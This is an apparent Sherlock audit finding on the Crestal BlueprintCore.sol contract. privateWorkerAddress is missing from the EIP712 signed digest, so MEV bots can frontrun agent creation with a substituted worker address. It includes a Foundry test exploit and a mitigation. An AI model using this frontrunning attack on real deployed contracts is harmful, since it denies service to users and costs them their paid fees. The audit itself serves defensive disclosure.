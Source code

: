 Best Plastic Yak

Medium

# Attacker can change privateWorkerAddress for a users project.

### Summary

When creating an agent the [`privateWorkerAddress`](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L494) is passed as a parameter but this is not part of the [request deployment digest](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L502) that the user signs, this means that an MEV bot can see these transactions in the mempool and frontrun using the same parameters except for the `privateWorkerAddress`, this can be changed to any address the attacker wants and the transaction will be successful.

### Root Cause

In `BlueprintCore.sol` the functions `createAgentWithTokenWithSig`, `createAgentWithWhitelistUsersWithSig` and `createAgentWithSigWithNFT` all use EIP712 to get a request deployment digest and retrieve the address of the user with a signature passed through the parameters, that way the transaction can be executed by someone else on behalf of the user securely. 
The problem is that the `privateWorkerAddress` parameter is not part of the digest, this means that anyone can change this parameter to any address.

### Internal Pre-conditions

1. One of the functions the functions `createAgentWithTokenWithSig`, `createAgentWithWhitelistUsersWithSig` and `createAgentWithSigWithNFT` is called with a valid signature.

### External Pre-conditions

None

### Attack Path

1. MEV bot sees the transaction in the mempool
2. MEV bot frontruns transaction and executes the same function with a different `privateWorkerAddress`
3. Agent is now registered with a incorrect `privateWorkerAddress`

### Impact

A Malicious user can use this as a Denial of Service mechanism or simply to the delay the workflow of the contract.
For the 3 functions affected the attacked User  pays a cost to create the agent, with their NFT ownership or by paying using one of the allowed ERC20 tokens.

### PoC

This test can be added to the `BlueprintV5.t.sol` test file.
```solidity
function test_frontrunPrivateWorker() public {
        address attacker = makeAddr("attacker");
        string memory base64Proposal = "test base64 proposal";
        string memory serverURL = "http://example.com";
        projectId = bytes32(0x2723a34e38d0f0aa09ce626f00aa23c0464b52c75516cf3203cc4c9afeaf2981);

        (bytes memory signature, address signerAddress) = generateSignature(projectId, base64Proposal, serverURL);

        // Add the payment address
        blueprint.addPaymentAddress(address(mockToken));

        // Mint tokens to the test account
        uint256 validTokenAmount = 100 * 10 ** 18;

        // set none zero cost for create agents, use any number greater than 0
        blueprint.setCreateAgentTokenCost(address(mockToken), validTokenAmount);

        mockToken.mint(signerAddress, validTokenAmount);

        // Approve the blueprint contract to spend tokens directly from the signer
        vm.prank(signerAddress);
        mockToken.approve(address(blueprint), validTokenAmount);

        // check allowance after approve
        uint256 allowance = mockToken.allowance(signerAddress, address(blueprint));
        assertEq(allowance, validTokenAmount, "sender does not have the correct token allowance");
        

        // 1. MEV bot sees the transaction in the mempool
        // 2. MEV bot frontruns transaction and executes the same function with a different `privateWorkerAddress`
        vm.prank(attacker);
        blueprint.createAgentWithTokenWithSig(
            projectId, base64Proposal, address(1), serverURL, address(mockToken), signature
        );
        
        // 3. User transaction reverts
        vm.prank(signerAddress);
        vm.expectRevert();
        blueprint.createAgentWithTokenWithSig(
            projectId, base64Proposal, workerAddress, serverURL, address(mockToken), signature
        );
    }
```

### Mitigation

Include the `privateWorkerAddress` in the request deployment digest.
